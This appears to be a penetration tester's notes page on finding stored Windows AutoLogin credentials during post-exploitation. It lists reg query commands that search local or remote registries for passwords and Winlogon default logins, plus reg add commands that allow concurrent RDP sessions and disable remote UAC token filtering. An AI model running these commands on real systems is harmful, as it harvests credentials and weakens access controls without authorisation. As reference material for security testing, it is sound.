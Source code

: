 # Windows AutoLogin

## 01 - Manual

```
C:\> reg query [\\<IP>] HKLM /f password /t REG_SZ /s

C:\> reg query [\\<IP>] HKCU /f password /t REG_SZ /s

C:\> reg query [\\<IP>] "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

C:\> reg query [\\<IP>] "HKLM\Software\Microsoft\Windows NT\Currentversion\Winlogon" /v DefaultUserName

C:\> reg query [\\<IP>] "HKLM\Software\Microsoft\Windows NT\Currentversion\Winlogon" /v LastUsedUsername
```

---
## References

- [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/Shell Is The Beginning/03 - Privilege Escalation/Windows/Local Privilege Escalation/Credentials/Stored Credentials/AutoLogin/Registry|AutoLogin Registry]]

- [Russian Government Cyber Activity Targeting Energy and Other Critical Infrastructure Sectors](https://datasecurity.ucsf.edu/news/russian-government-cyber-activity-targeting-energy-and-other-critical-infrastructure-sectors)

TODO: This is for persistence or idk what kind of mechanism persistence technique that it does so I'll have to put it somewhere else later

`C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v EnableConcurrentSessions /t REG_DWORD /d 1 /f`

`C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AllowMultipleTSSessions /t REG_DWORD /d 1 /f`

`C:\> reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v MaxInstanceCount /t REG_DWORD /d 100 /f`

`C:\> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f`